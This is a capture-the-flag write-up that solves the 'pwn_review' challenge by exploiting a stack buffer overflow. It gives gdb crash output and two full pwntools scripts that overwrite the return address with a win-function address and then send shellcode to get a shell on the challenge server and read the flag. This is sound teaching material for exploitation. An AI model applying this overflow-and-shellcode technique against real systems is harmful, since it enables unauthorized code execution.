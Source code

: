 ```yaml
---
title: "OSU League 2020/2021 - pwn_review Writeup"
date: 2020-10-30
draft: false
description: ""
tags: ["ctf"]
---
```


A simple review challenge.  Let's see how it goes :3

So running the binary, we get some info:
```
This is a review challenge, you know the drill
Return to the win function and get the flag
gimme win function
```
Ok, so we need to return to the win function.  My guess is that this program is going to be susceptible to a buffer overflow.  Turns out it is!  After screaming at it for a bit, I was able to determine the buffer was 32 bytes, so our padding will be 40 bytes.

```
gdb-peda$ r
Starting program: /home/perchik/CTF/osuleague/week4/pwn_review
This is a review challenge, you know the drill
Return to the win function and get the flag
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
```
Sweet, we crashed, and if we look at RBP, we can see we have overwritten it with our Bs. `RBP: 0x4242424242424242 ('BBBBBBBB')`
That means whatever comes next will overwrite the instruction pointer, so we can return to wherever we want!

So let's actually find the address we want to return to.  We can use `objdump -d pwnreview | grep win` to find the location of the win function.
`0000000000400577 <win>:`

Great. So we know our padding will be 40 bytes, and we have the address.  So let's put what we have together so far in python:

```python
from pwn import *
import os, sys
#io = process('./pwn_review')
io = remote('ctf.ropcity.com', 31337)

context(arch = "amd64")

padding = b"A"*40
win = p64(0x400577)
payload = padding + win

log.info(payload)

io.sendline(payload)
io.interactive()
```
And running it we get:
```
[+] Opening connection to ctf.ropcity.com on port 31337: Done
[*] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAw\x05@\x00\x00\x00\x00\x00
[*] Switching to interactive mode
This is a review challenge, you know the drill
Return to the win function and get the flag
nice! I'll execute any shellcode you give me now
$ booop?
[*] Got EOF while reading in interactive
$
$
[*] Closed connection to ctf.ropcity.com port 31337
[*] Got EOF while sending in interactive
```

Hmm, looks like we aren't done quite yet.  We are give a prompt to enter some shell code.  So let's add a few more lines to our exploit that will spawn a shell for us.
```python
from pwn import *
import os, sys
#io = process('./pwn_review')
io = remote('ctf.ropcity.com', 31337)

context(arch = "amd64")

padding = b"A"*40
win = p64(0x400577)

shell = shellcraft.sh() #Pwntools shellcraft OP
shellcode = asm(shell)

payload = padding + win
log.info(payload)

io.sendline(payload)

io.recvuntil("you give me now")

io.sendline(shellcode)
io.interactive()
```

And running it we get a shell!:

```
[+] Opening connection to ctf.ropcity.com on port 31337: Done
[*] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAw\x05@\x00\x00\x00\x00\x00
[*] Switching to interactive mode

$ ls
flag
pwn_review
$ cat flag
osu{pwnt00ls_i$_Ch3A7iNG}
```

This was a pretty sick review covering the stuff we have learned so far! GG
